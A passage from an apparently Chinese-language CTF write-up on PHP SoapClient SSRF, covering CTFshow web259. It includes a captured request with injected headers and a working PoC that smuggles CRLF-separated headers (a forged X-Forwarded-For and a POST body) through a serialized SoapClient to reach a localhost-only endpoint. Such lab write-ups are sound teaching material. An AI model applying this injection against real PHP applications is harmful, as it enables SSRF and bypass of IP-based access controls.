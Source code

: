 返回的信息

```php
Connection from 192.168.27.1 62590 received!
POST / HTTP/1.1
Host: 192.168.27.173:2023
Connection: Keep-Alive
User-Agent: Happy
Content-Type: application/x-www-form-urlencoded
X-Forwarded-For: 127.0.0.1
Cookie: PHPSESSID=8asIKRJGI2493324gfsjkk958
Content-Length: 12

data=ki10Moc
Content-Type: text/xml; charset=utf-8
SOAPAction: "ki10Moc#a"
Content-Length: 368
```

从这里我们可以看到我们伪造的XFF头，注入的Cookie和UA头都是可以成功实现的

那么最后就来看一下让我认识Soapclint这个原生类的题目

**CTFshow web259**

源码：

```php
$xff = explode(',', $_SERVER['HTTP_X_FORWARDED_FOR']);
array_pop($xff);
$ip = array_pop($xff);


if($ip!=='127.0.0.1'){
    die('error');
}else{
    $token = $_POST['token'];
    if($token=='ctfshow'){
        file_put_contents('flag.txt',$flag);
    }
}
```

$_SERVER[‘HTTP_X_FORWARDED_FOR’]会获取我们的XFF头的信息

并要求是127.0.0.1，token为ctfshow

poc：

```php
<?php
$target = 'http://127.0.0.1/flag.php';
$post_string = 'token=ctfshow';
$b = new SoapClient(null,array('location' => $target,'user_agent'=>'wupco^^X-Forwarded-For:127.0.0.1,127.0.0.1^^Content-Type: application/x-www-form-urlencoded'.'^^Content-Length: '.(string)strlen($post_string).'^^^^'.$post_string,'uri'=> "ssrf"));
$a = serialize($b);
$a = str_replace('^^',"\r\n",$a);
echo urlencode($a);
?>
```
